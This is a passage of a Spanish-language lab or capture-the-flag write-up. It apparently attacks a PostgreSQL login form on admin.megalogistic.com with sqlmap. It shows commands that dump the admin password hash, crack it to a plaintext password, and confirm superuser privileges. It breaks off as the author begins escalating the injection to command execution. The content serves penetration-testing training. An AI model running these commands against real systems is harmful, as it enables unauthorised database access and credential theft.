 En la base de datos `public` he encontrado las `credenciales` del usuario `admin`

```
# sqlmap -u https://admin.megalogistic.com/ --risk=3 --level=5 --random-agent --dbs --batch --data "username=*&password=*" -D public -T users -C password,username --dump

+----------------------------------+----------+
| password                         | username |
+----------------------------------+----------+
| 4a100a85cb5ca3616dcf137918550815 | admin    |
+----------------------------------+----------+
```

Este es un `hash MD5` y en [https://hashes.com/en/decrypt/hash](https://hashes.com/en/decrypt/hash) he podido obtener la `contraseña` usando `rainbow tables`

```
4a100a85cb5ca3616dcf137918550815:iamzeadmin
```

Con `sqlmap` he listado el usuario en uso

```
# sqlmap -u https://admin.megalogistic.com/ --risk=3 --level=5 --random-agent --batch --data "username=*&password=*" --current-user      

current user: 'postgres'
```

He `listado` los `privilegios` que tengo 

```
# sqlmap -u https://admin.megalogistic.com/ --risk=3 --level=5 --random-agent --batch --data "username=*&password=*" --privileges     

database management system users privileges:
[*] postgres (administrator) [2]:
    privilege: createdb
    privilege: super
```

He intentado `reutilizar` esta `contraseña` para conectarme a los diferentes servicios pero no ha funcionado, he encontrado este artículo [https://book.hacktricks.xyz/network-services-pentesting/pentesting-postgresql#rce-to-program](https://book.hacktricks.xyz/network-services-pentesting/pentesting-postgresql#rce-to-program) que dice que podemos `ejecutar comandos` si somos `super usuarios` o pertenecemos al grupo `pg_execute_server_program`. En nuestro caso somos tenemos el privilegio `super` así que podríamos `derivar` la `SQLI` a un `RCE`, lo primero que debemos hacer es abrir el `Burpsuite` y crear la tabla (es muy importante cerrar la query anterior con el `;` debido a que estamos en PostgreSQL)
